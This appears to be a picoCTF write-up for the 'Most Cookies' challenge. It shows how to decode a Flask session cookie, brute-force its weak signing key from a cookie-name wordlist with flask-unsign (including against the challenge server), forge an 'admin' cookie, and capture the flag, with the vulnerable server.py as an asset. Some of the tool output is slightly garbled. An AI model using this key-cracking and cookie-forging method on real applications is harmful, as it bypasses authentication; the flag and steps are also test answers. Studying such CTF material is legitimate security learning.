 




Examine the browser and decode the cookies

Decode flask cookie
https://jwt.io/




Defeating flask cookies
https://blog.paradoxis.nl/defeating-flasks-session-management-65706ba9d3ce

```
Pip install flask-unsign
```

How to use it, decoding a cookie
```
 flask-unsign --decode --cookie 'eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZRnCYg.vy6el8XLetqwYT9_5Iip6uw7oaE'
 ```
the result
```
{'very_auth': 'snickerdoodle'}
```



How to find the "secret key" of the encription with flask unsing locally (look assets to know more about wordlist and cookie.txt)
```
┌──(cds㉿kali)-[~/Downloads]
└─$ flask-unsign --unsign --cookie < cookie.txt --wordlist wordlist.txt 
[*] Session decodes to: {'very_auth': 'snickerdoodle'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```


How to find the secret key directly to the server with flask unsign
```
┌──(cds㉿kali)-[~/Downloads]
└─$ flask-unsign --unsign --server http://mercury.picoctf.net:35697/ --wordlist wordlist.txt
[*] Server returned HTTP 302 (FOUND)
[+] Successfully obtained session cookie: eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.ZRnIXQ.6GRcGbPNV1NSTkzpjqnZGT6WPFI
[*] Session decodes to: {'very_auth': 'blank'}
[*] Starting brute-forcer with 8 threads..
[+] Found secret key after 28 attemptscadamia
'peanut butter'
```




Forge your own cookie (TOOL)
https://github.com/noraj/flask-session-cookie-manager

```
┌──(venv)─(cds㉿kali)-[~/flask-session-cookie-manager]
└─$ flask_session_cookie_manager3.py encode -s "peanut butter" -t "{'very_auth':'admin'}"
/home/cds/flask-session-cookie-manager/venv/bin/flask_session_cookie_manager3.py:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('flask-session-cookie-manager==1.2.1.1', 'flask_session_cookie_manager3.py')
eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.ZRnOZA.Uo4KQehfWD7PVhMiZ4hfp1tefJg

```


picoCTF{pwn_4ll_th3_cook1E5_22fe0842}





## ASSETS ##

The cookie.txt
```
Cookie:
eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.ZRnCYg.vy6el8XLetqwYT9_5Iip6uw7oaE

```

The equivalent was snickerdoodle

{'very_auth': 'snickerdoodle'}


wordlist.txt (the list of cookies from the server.py file)

```
┌──(cds㉿kali)-[~/Downloads]
└─$ cat wordlist.txt 
snickerdoodle
chocolate chip
oatmeal raisin
gingersnap
shortbread
peanut butter
whoopie pie
sugar
molasses
kiss
biscotti
butter
spritz
snowball
drop
thumbprint
pinwheel
wafer
macaroon
fortune
crinkle
icebox
gingerbread
tassie
lebkuchen
macaron
black and white
white chocolate macadamia

```



server.py
```
1   │ from flask import Flask, render_template, request, url_for, redirect, make_response, flash, session
   2   │ import random
   3   │ app = Flask(__name__)
   4   │ flag_value = open("./flag").read().rstrip()
   5   │ title = "Most Cookies"
   6   │ cookie_names = ["snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", "shortbread", "peanut butter", "whoopie pie", "sugar", "
       │ molasses", "kiss", "biscotti", "butter", "spritz", "snowball", "drop", "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", "crinkle",
       │  "icebox", "gingerbread", "tassie", "lebkuchen", "macaron", "black and white", "white chocolate macadamia"]
   7   │ app.secret_key = random.choice(cookie_names)
   8   │ 
   9   │ @app.route("/")
  10   │ def main():
  11   │     if session.get("very_auth"):
  12   │         check = session["very_auth"]
  13   │         if check == "blank":
  14   │             return render_template("index.html", title=title)
  15   │         else:
  16   │             return make_response(redirect("/display"))
  17   │     else:
  18   │         resp = make_response(redirect("/"))
  19   │         session["very_auth"] = "blank"
  20   │         return resp
  21   │ 
  22   │ @app.route("/search", methods=["GET", "POST"])
  23   │ def search():
  24   │     if "name" in request.form and request.form["name"] in cookie_names:
  25   │         resp = make_response(redirect("/display"))
  26   │         session["very_auth"] = request.form["name"]
  27   │         return resp
  28   │     else:
  29   │         message = "That doesn't appear to be a valid cookie."
  30   │         category = "danger"
  31   │         flash(message, category)
  32   │         resp = make_response(redirect("/"))
  33   │         session["very_auth"] = "blank"
  34   │         return resp
  35   │ 
  36   │ @app.route("/reset")
  37   │ def reset():
  38   │     resp = make_response(redirect("/"))
  39   │     session.pop("very_auth", None)
  40   │     return resp
  41   │ 
  42   │ @app.route("/display", methods=["GET"])
  43   │ def flag():
  44   │     if session.get("very_auth"):
  45   │         check = session["very_auth"]
  46   │         if check == "admin":
  47   │             resp = make_response(render_template("flag.html", value=flag_value, title=title))
  48   │             return resp
  49   │         flash("That is a cookie! Not very special though...", "success")
  50   │         return render_template("not-flag.html", title=title, cookie_name=session["very_auth"])
  51   │     else:
  52   │         resp = make_response(redirect("/"))
  53   │         session["very_auth"] = "blank"
  54   │         return resp
  55   │ 
  56   │ if __name__ == "__main__":
  57   │     app.run()
  58   │ 

```